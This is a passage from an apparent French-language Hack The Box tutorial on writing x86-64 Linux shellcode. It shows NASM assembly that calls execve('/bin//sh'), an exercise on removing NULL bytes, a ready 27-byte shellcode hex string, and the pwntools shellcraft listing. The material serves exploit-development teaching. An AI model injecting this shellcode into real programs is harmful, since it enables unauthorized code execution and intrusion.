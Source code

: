 En utilisant les mêmes concepts que nous avons appris pour appeler un appel système, le code assembleur suivant doit exécuter l'appel système dont nous avons besoin :

Code : nasm

```
global _start

section .text
_start:
    mov rax, 59         ; execve syscall number
    push 0              ; push NULL string terminator
    mov rdi, '/bin//sh' ; first arg to /bin/sh
    push rdi            ; push to stack
    mov rdi, rsp        ; move pointer to ['/bin//sh']
    push 0              ; push NULL string terminator
    push rdi            ; push second arg to ['/bin//sh']
    mov rsi, rsp        ; pointer to args
    mov rdx, 0          ; set env to NULL
    syscall

```

Comme nous pouvons le voir, nous avons poussé deux chaînes (terminées par NULL) `'/bin//sh'`, puis avons déplacé leurs pointeurs vers `rdi`et `rsi`. Nous devrions savoir maintenant que le code assembleur ci-dessus ne produira pas de shellcode fonctionnel car il contient des octets NULL.

`Try to remove all NULL bytes from the above assembly code to produce a working shellcode.`

Cliquez pour afficher la réponse

Une fois que nous avons corrigé notre code, nous pouvons `shellcoder.py`l'exécuter et avoir un shellcode sans octets NULL :

```
dsgsec@htb[/htb]$ python3 shellcoder.py sh

b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05
27 bytes - No NULL bytes

```

Essayez d'exécuter le shellcode ci-dessus avec `loader.py`pour voir s'il fonctionne et nous dépose dans un shell. Essayons maintenant d'obtenir un autre shellcode pour `/bin/sh`, en utilisant les outils de génération de shellcode.

* * * * *

Shells
-----------

Commençons par nos outils habituels, `pwntools`, et utilisons sa `shellcraft`bibliothèque, qui génère un shellcode pour divers `syscalls`. Nous pouvons lister `syscalls`les outils acceptés comme suit :

```
dsgsec@htb[/htb]$ pwn shellcraft -l 'amd64.linux'

...SNIP...
amd64.linux.sh

```
